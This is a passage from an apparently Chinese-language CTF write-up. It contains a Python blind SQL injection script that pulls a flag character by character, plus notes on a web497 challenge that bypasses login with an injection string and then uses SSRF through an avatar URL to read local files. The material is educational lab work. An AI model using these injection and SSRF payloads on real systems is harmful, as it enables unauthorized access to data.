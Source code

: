 ```python
        payload="' or if(ascii(substr((select/**/group_concat(flagisherebutyouneverknow118)from(flagyoudontknow76)),{},1))<{},1,0)#".format(i,mid)

        #print(payload)

        data={
           'user[username]':payload,
           'nickname':random.randint(0,999999)
        }
        #print(data)
        r=session.post(url=url1,data=data).text
        #print(r)
        if  'u529f'  in r  :
            max=mid
        else:
            min=mid
```

## web497

这题是 SSRF

先万能密码登录

```
username=1' ||1%23&password=123
```

在头像链接这里 ssrf，file 协议

<img src=".\图片\Snipaste_2023-08-13_11-31-02.png" alt="Snipaste_2023-08-13_11-31-02" style="zoom:67%;" />
